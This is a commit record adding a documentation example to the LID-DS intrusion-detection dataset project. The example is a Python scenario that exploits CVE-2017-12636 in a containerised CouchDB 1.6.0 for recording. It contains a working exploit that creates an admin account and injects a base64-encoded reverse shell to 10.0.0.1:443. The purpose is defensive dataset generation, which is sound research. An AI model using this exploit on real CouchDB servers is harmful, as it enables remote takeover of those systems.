

Before and after one commit to LID-DS/LID-DS, a Sphinx documentation site: the page built from docs/source/examples.rst, in a window 1280 px wide and 1400 px high, scrolled down 728 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
exampe in docs

```diff
--- a/docs/source/examples.rst
+++ b/docs/source/examples.rst
@@ -1,2 +1,119 @@
 Cookbook/Examples
-**************
+*****************
+
+
+This example code simulate a CouchDB Version 1.6.0 instance which is vulnerable to CVE-2017-12636.
+
+More information on this environment can be found here: Vulhub_
+
+.. _Vulhub: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12636
+
+.. code-block:: python
+
+   import requests
+   import sys
+   import json
+   import base64
+   import random
+
+   from cloudant.client import Cloudant
+   from requests.auth import HTTPBasicAuth
+   from lid_ds.core import Scenario
+   from lid_ds.sim import Behaviour
+
+   warmt = 15
+   rect = 120
+
+   min_user_count = 10
+   max_user_count = 25
+   user_count = random.randint(min_user_count, max_user_count)
+
+   total_duration = warmt+rect
+   warmup_time = warmt
+   exploit_time = random.randint(int(rect * .3), int(rect * .8))
+
+   class CVE_2017_12636(Scenario):
+       def exploit(self, container):
+           target = 'http://localhost:5984'
+           command = rb"""sh -i >& /dev/tcp/10.0.0.1/443 0>&1"""
+           version = 1
+
+           session = requests.session()
+           session.headers = {
+               'Content-Type': 'application/json'
+           }
+           # session.proxies = {
+           #     'http': 'http://127.0.0.1:8085'
+           # }
+           session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
+               "type": "user",
+               "name": "wooyun",
+               "roles": ["_admin"],
+               "roles": [],
+               "password": "wooyun"
+           }''')
+
+           session.auth = HTTPBasicAuth('wooyun', 'wooyun')
+
+           command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
+           if version == 1:
+               session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
+           else:
+               host = session.get(target + '/_membership').json()['all_nodes'][0]
+               session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))
+
+           session.put(target + '/wooyun')
+           session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')
+
+           if version == 1:
+               session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
+           else:
+               session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
+       def wait_for_availability(self, container):
+           try:
+               requests.get('http://localhost:5984')
+           except Exception:
+               return False
+           print('CouchDB Container is up')
+           return True
+
+   class CouchDBUser(Behaviour):
+       def __init__(self, host, port, uname, passwd, total_duration):
+           super().__init__([], total_duration)
+           self.host = host
+           self.port = port
+           self.uname = uname
+           self.passwd = passwd
+           self.actions.append(self._init_normal)
+           for wait_time in self.wait_times[1:]:
+               self.actions.append(self.do_normal)
+
+       def _init_normal(self):
+           try:
+               self.client = Cloudant(self.uname, self.passwd, url='{}:{}'.format(self.host, self.port))
+               self.session = self.client.session()
+           except:
+               pass
+
+       def do_normal(self):
+           try:
+               self.client.create_database('hellodb')
+           except Exception as Error:
+               pass
+
+   behaviours = []
+   for i in range(user_count):
+       duration = random.random() * total_duration
+       behaviours.append(CouchDBUser("http://localhost", "5984", "wooyun", "wooyun", total_duration * (i/user_count)))
+
+   scenario = CVE_2017_12636(
+           'vulhub/couchdb:1.6.0',
+           port_mapping={
+               '5984/tcp':5984
+           },
+           warmup_time=warmup_time,
+           recording_time=(total_duration-warmup_time),
+           behaviours=behaviours,
+           exploit_start_time=exploit_time # Comment this line if you don't want the exploit to be executed
+       )
+   scenario()
```
Also changed, not shown: 4 other files.
